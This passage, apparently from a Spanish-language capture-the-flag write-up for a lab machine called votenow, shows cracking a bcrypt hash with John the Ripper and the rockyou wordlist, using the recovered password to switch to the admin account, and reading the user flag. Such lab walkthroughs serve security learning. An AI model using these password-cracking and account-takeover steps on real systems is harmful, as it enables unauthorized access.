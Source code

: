 Por fuerza bruta podemos averiguar si ese hash es algún password de los que figuran en Rockyou.

```bash
> john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![johntheripper.png](johntheripper.png)

-------------------------------------------------------------------------------

Y vemos que hay una coincidencia Stella. Probamos a cambiar de usuario a admin.

```bash
> su admin
password: Stella
```

Y bingo! escalamos privilegios a admin.

-------------------------------------------------------------------------------

Veamos qué hay en el directorio home de admin:

```bash
[admin@votenow ~]$ ls -la
total 20
drwx------. 2 admin admin 116 Jun 28  2020 .
drwxr-xr-x. 3 root  root   19 Jun 27  2020 ..
lrwxrwxrwx. 1 root  root    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r--. 1 admin admin  18 Apr  1  2020 .bash_logout
-rw-r--r--. 1 admin admin 193 Apr  1  2020 .bash_profile
-rw-r--r--. 1 admin admin 231 Apr  1  2020 .bashrc
-rw-r--r--  1 admin admin  75 Jun 27  2020 notes.txt
-rwx------  1 admin admin  33 Jun 27  2020 user.txt
```

Y vemos que hemos obtenido la flag de usuario.

```bash
[admin@votenow ~]$ cat user.txt 
663ba6a402a57536772c6118e8181570
```

-------------------------------------------------------------------------------
